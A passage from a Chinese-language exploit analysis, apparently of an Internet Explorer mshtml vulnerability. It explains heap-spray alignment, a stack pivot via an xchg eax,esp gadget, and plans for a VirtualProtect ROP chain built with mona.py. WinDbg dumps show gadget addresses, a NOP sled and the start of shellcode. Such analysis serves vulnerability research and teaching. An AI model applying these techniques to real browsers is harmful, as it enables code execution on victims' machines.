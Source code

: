 同理，可用地址还有0810，0fe0，17b0，1f80……，每次增加0x7d0，这是因为一个最小单元的块是1000*2（0x7d0）。所以exp中的0x6da0也符合条件，验证如下：

```
0:005> dd 079f6da0
079f6da0  6b661041 6b662c60 6b67b43b 6b662c60
079f6db0  6b662c60 6b663059 00001024 6b6fced0
079f6dc0  00000040 6b662fa9 6bb9fe20 6b6630ae
079f6dd0  6b661041 6b662f0b 6b66f920 6b674ef7
079f6de0  6b661348 6b6cf0bb 6b6994a1 6b6c3d7e
079f6df0  90909090 90909090 90909090 0089e8fc
079f6e00  89600000 64d231e5 8b30528b 528b0c52
079f6e10  28728b14 264ab70f c031ff31 7c613cac

```

至此，我们终于理清了堆喷的思路，就是整齐的摆放堆块，使得gadget地址位于可预测的位置，在Glibc pwn中也有类似细微的操作。

**不过还需要提一句的是，CButtonLayout对象的vftable是如何控制调用流程的呢？即，这个虚函数是在什么时候被怎样调用的？**

在xchg指令处下断点：

```
0:013> bp 0x1B43B+686a0000 
0:013> g
ModLoad: 6c4f0000 6c5a2000   C:\Windows\System32\jscript.dll
Breakpoint 0 hit
eax=079f6da0 ebx=01000000 ecx=034cd3b0 edx=00000041 esi=024ccf00 edi=034cea40
eip=686bb43b esp=024ccd38 ebp=024ccd70 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
mshtml!CTreeNode::GetParentWidth+0x9c:
686bb43b 94              xchg    eax,esp
0:005> dd 034cd3b0 
034cd3b0  079f6da0 0047e9e0 034cea40 687f8690
034cd3c0  79f6da08 00000000 01080809 ffffffff
034cd3d0  00000000 00000000 00000000 ffffffff
034cd3e0  00000080 ffffffff 00000000 00000000
034cd3f0  00000000 00000000 00000000 00000024
034cd400  00000020 00000000 00000000 00000000
034cd410  00000000 00000000 00000000 00000000
034cd420  00000000 00000000 00000000 00000000

```

**此时eax实际上为要栈迁移的地址，而这个地址来源于ecx，应该有`mov eax, [ecx]`，所以之前的call [eax+8]实际上就是直接跳转到`xchg`这条指令，然后将esp修改为第一条gadget的地址（retn），然后再通过第二条gadget pop;ret，将`xchg`指令过掉，从而执行下面的`VirtualProtect`ROP。**

#### Rop链

现在我们已经将EIP劫持到了可控位置，下一步就是写Rop链了。

首先使用mona的rop方法试一下：

```
!py mona.py rop -m mshtml.dll -cpb \x00
```

确实手动生成了rop链，但是耗时较长。
